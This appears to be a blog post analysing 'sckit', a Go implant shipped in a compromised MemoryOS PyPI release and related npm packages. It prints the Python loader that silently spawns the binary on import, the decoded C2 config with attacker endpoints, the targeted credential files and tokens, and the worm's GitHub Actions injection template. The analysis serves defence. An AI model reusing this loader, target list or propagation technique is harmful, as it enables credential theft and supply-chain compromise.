

I finally got some time to look at this one. Last month, a single malicious release (`MemoryOS 2.0.34` on PyPI), alongside three npm releases of the companion OpenClaw plugin, carried a bundled malicious go implant called `sckit`.

The releases targeted 6 different architectures, I examined the `linux-arm64` binary shipped in the compromised python package.

| Sample | SHA-256 | Toolchain | Campaign |
|---|---|---|---|
| `linux-arm64/sckit` | `8f647f17…87d44b26` | go1.27.1 | `memos-semi-nuclear` |

This is a quick analysis of that binary. I'm not interested here in how the attacker got publish rights, that's covered well elsewhere.

Everything below comes from static analysis: string and build-metadata extraction, and decompilation after recovering the Go symbol table directly from the `.gopclntab`. Snippets are lightly cleaned for readability.

## How the binary is triggered

The executable doesn't runs at `pip install` which is what usually happens in such campaigns. It is launched from Python, at import by a loader. the package calls `_stage0.py`. The hook is buried in the logging setup, which nearly every modules touches, so a simple `import memos` fires it:

*memos/_stage0.py: trigger*

```python
# called from configure_logging(), which get_logger() calls at import
def trigger(text: str = "") -> None:
    root = Path(__file__).resolve().parent / ".sckit"
    name = "sckit.exe" if os.name == "nt" else "sckit"
    machine = {"x86_64":"amd64","aarch64":"arm64", ...}.get(platform.machine())
    binary = root / f"{platform.system().lower()}-{machine}" / name
    if not binary.exists(): return
    try:
        if os.name != "nt" and not os.access(binary, os.X_OK):
            binary.chmod(0o700)
        env = os.environ.copy()
        env["SCKIT_EVENT_TEXT"] = text
        subprocess.Popen([str(binary), "stage0", "--config64", _CONFIG],
                         env=env, stdin=DEVNULL, stdout=DEVNULL, stderr=DEVNULL,
                         start_new_session=True)
    except Exception:
        return
```

Two quick observations:

- **It detaches.** `start_new_session=True` with every stream routed to `/dev/null` detaches the implant from the Python process and the terminal. In other words, it outlives its parent and prints nothing.
- **It fails silently.** The whole call is wrapped in a bare `except: pass`.

The binary itself is invoked with one subcommand and one argument: `sckit stage0 --config64 <base64>`. That base64 blob is the entire brain of the operation.

## The config struct

Everything the implant needs, from where to call home, what to steal, which cryptographic identity to trust, when to stop... is passed in at launch as base64-encoded JSON. Decoding the blob fed to the PyPI build gives us the following:

*--config64 (decoded)*

```json
{
  "schema": "sckit.runtime.v1",
  "campaign_id": "memos-semi-nuclear",
  "product": "memos",
  "version": "2.0.34",
  "channel": "MemoryOS/v*-release",
  "profile": "semi-nuclear",
  "root_public": "gZIXrn82xCVrNmG1fwKVB53ospCTIIwBiPOrSyG+DvE",
  "stage0_digest": "pmBMOn4CHXalbt5yVGs7FTKmcMonkpAFTJFtefwPNWk",
  "state_dir": "$HOME/.memos/.cache/runtime",
  "inventory_roots": ["$HOME"],
  "fronts": [
    { "base_url": "https://c747d139e7e9.skyleen.fr",
      "control_path":   "/24ffe6fe9644e7fc6ec8abd3/config",
      "preflight_path": "/24ffe6fe9644e7fc6ec8abd3/status",
      "result_path":    "/24ffe6fe9644e7fc6ec8abd3/batch" },
    { "base_url": "https://73376a079d87.skyleen.fr", ... },
    { "base_url": "https://d4f77a3a8cb0.skyleen.fr", ... }
  ],
  "not_after": 1792724380
}
```

Some important fields:

| Field | Meaning |
|---|---|
| `root_public` | An Ed25519 public key. The implant **verifies every command** from the server against this key |
| `stage0_digest` | Self-integrity pin: expected hash of the stage-0 payload. |
| `inventory_roots` | `["$HOME"]`. This is the search scope for the credential sweep. |
| `fronts` | Three redundant C2 endpoints, each with distinct 24-hex paths for *config* (fetch commands), *status* (preflight), and *batch* (exfil upload). |
| `profile` | `semi-nuclear` an interesting name. The binary refuses to run if this isn't set. |
| `not_after` | Unix timestamp 1792724380 = 22 Oct 2026. A built-in kill date. |

It's quite clear that because the trust anchor and the endpoints are supplied as an argument rather than compiled in, the same binary is being used to serve multiple campaigns, just swap the config and it's good to go.

## What it looks for

The binary's own strings and struct layout gives us its shopping list. The goal is an inventory sweep of a developer's identity. The harvester walks `$HOME` and reads a fixed set of secret stores, while also scraping the process environment.

The credential files it goes after:

- **Source control:** `.git-credentials`, `id_ecdsa` and sibling SSH keys
- **Package registries:** `.npmrc`, and the npm/PyPI publish tokens `NPM_TOKEN`, `NODE_AUTH_TOKEN`, `PYPI_API_TOKEN`, `__token__`
- **Cloud & auth:** `access_tokens.{db,json}`, `credentials.db`, `.vault-token`, `msal_token_cache` (Azure/Microsoft)

Alongside the files, `agent.credentials` calls `syscall.Environ()` and classifies the *entire* environment block into an `all_credential_env` bucket. On a CI runner that is where the treasure is.

The intent is immediately obvious: collect the keys that let you publish more packages and push to more repositories. So we're dealing with a worm.

## What the binary does

The entry point is `supplychain.local/campaign/cmd/implant`; `stage0` decodes the config and hands control to `agent.(*Runtime).Run`, this is the backbone of the whole program. I walked it's call graph and was able to identify 6 stages.

### Stage 1: Establish identity & state

`StateStore.LoadOrCreate` reads or seeds a `state.json` under `$HOME/.memos/.cache/runtime`. This is a persistent runtime ID so repeat beacons from the same victim are correlated. `Run` also mints a fresh ephemeral key pair per session:

*agent.(\*Runtime).Run:*

```c
LoadOrCreate();                           // persistent victim/runtime id
base64.DecodeString(config.root_public);  // pin the server's Ed25519 key
crypto_ecdh.x25519Curve.GenerateKey();    // ephemeral ECDH keypair
crypto_ed25519.GenerateKey();             // ephemeral signing keypair
sha256.Sum256(...);
wire.Request_Bytes(...);                   // build the signed admission request
...
scheduleSelfDelete();                      // armed for the end of the run
```

### Stage 2: Fingerprint the host

A family of `hostProfile*` functions assembles a `HostProfile`: hostname, OS, arch, CPU count, every network interface with its IPs and MACs, system languages, timezone and offset, uid and username, home and cwd.

`hostPrivilegeHints` checks if it's running as a privileged user (strings `uid-0`, `administrator-username` and `windows-system-sid`). This tells the operator how valuable the box is.

### Stage 3: Harvest credentials

`agent.credentials` does the theft described earlier: `syscall.Environ()` for the whole environment, then `credentialPaths()` -> `readCredentialFile()` across the fixed target list.

### Stage 4: Beacon over sealed CBOR

`Run` drives a timed loop, `(*Runtime).exchange` POSTs to the `fronts` via Go's HTTP client. The transport is not plain JSON-over-TLS: bodies are **CBOR** (`application/cbor`), sealed with **XChaCha20-Poly1305** over an X25519-derived key. The `internal/wire` package carries the symbols we need:

*internal/wire: recovered symbols & strings*

```
wire.SealBound / wire.OpenBound        // AEAD seal/open
wire.makeAEAD → chacha20poly1305.xchacha20poly1305
wire.GenerateX25519                    // ECDH key agreement
wire.Signed.Verify                     // Ed25519 over control messages
"sckit/xchacha/v1"  "sckit.control.v1"  "sckit.admission.v1"
```

So network defenders can't simply read the exfil off the wire even with TLS interception. The payload is encrypted a second time inside the TLS tunnel with keys the operator controls.

### Stage 5: Fetch & verify dynamic modules

The interesting work arrives as server-delivered *modules*. `ParseModule` / `oneShotModule` ingest a signed manifest, and `(*Runtime).verifyResponse` gates everything through `wire.ParseResponse` plus a constant-time comparison against the pinned `root_public`:

*agent.(\*Runtime).verifyResponse:*

```c
wire.ParseResponse(body);
// reject unless Ed25519 signature matches config.root_public
if !runtime.memequal(expected_sig, got_sig) { return error; }
// manifest digests re-checked
```

Well this is a bit of a bummer... the command set is not in the binary. Without the operator's Ed25519 private key we cannot forge a module, and the server is down by now, so the exact post-exploitation actions can't be recovered.

### Stage 6: Propagate, then erase

And finally, the worm:

1. `findRepositories` walks the filesystem (`filepath.globWithLimit`, `os.Stat`) for git repositories the victim can push to.
2. `prepareRemoteWorkflow` formats a GitHub Actions workflow, the recovered template is `- run: ./%s/linux-amd64/sckit stage0 --config64 %q`.
3. `writeRemoteFile` plants it, as `runtime-update.yml` and by overwriting `release.yml`, `python-release.yml` and so on.
4. `runGitWithIdentity` commits it under a forged identity, reading `GIT_AUTHOR_*`/`GIT_COMMITTER_*` from the environment and falling back to `maintainer@localhost`.
5. `recursivePublish` ties it together and calls itself.

When the run ends, `scheduleSelfDelete` cleans up.

*agent.scheduleSelfDelete:*

```c
auVar1 = os.Executable();        // resolves its path on disk
if (err != 0) { return; }
auVar1 = os.Remove();            // deletes self
return auVar1;
```

## Observations

This campaign is definitely not a one-off. 

The Go module path is `supplychain.local/campaign`, with a clean internal layout: `cmd/implant`, `internal/agent`, `internal/wire`, `internal/ciemit`, `internal/presentation`. Along with Config fields like `campaign_id`, `channel` and `profile`, a versioned wire schema (`sckit.runtime.v1`, `…control.v1`, `…admission.v1`), and a separate build-time credential-theft path (`sckit.initial-ci.v2`) all point to general-purpose tooling. The campaign name `memos-semi-nuclear` and its sibling `cloud-openclaw-semi-nuclear` (npm) share a `-semi-nuclear` suffix, which seems like a level in an aggression tier menu or something.

The build is quite clean:
- `-trimpath=true`: no local source paths leak
- `CGO_ENABLED=0`: no libc fingerprint, fully static, trivially portable
- stripped symbol tables
- six platform/arch builds shipped together

The module lives under `.local`. The commit author email in the staging repo was `ci-review@memtensor.invalid`. `.invalid` is an RFC 2606 reserved TLD that can never resolve.

All C2 sits under `skyleen.fr` across six randomised subdomains which point to a single Vultr IP (`139.84.223.178`).

So yeah, we can expect more campaigns from these guys.